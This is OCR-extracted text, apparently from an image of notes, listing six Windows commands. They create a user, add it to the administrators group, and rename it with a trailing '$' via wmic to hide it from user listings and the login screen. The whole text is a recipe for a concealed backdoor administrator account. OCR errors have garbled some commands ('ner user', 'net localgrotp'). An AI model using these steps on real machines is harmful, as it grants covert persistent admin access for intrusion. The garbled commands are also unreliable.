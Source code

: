 1. Create user with cmd - ner user [user] [password] /add
2. Assign the newly created user to the administrators group - net localgrotp [group] [user] /add
3. View all the users - net users
4. Use wmic to rename the created user and hide it - wmic useraccount where name="[user]" call rename name="[user$]"
5. Show all the users again - net users
6. Restart the machine and chek if the user is hidden in Winlogon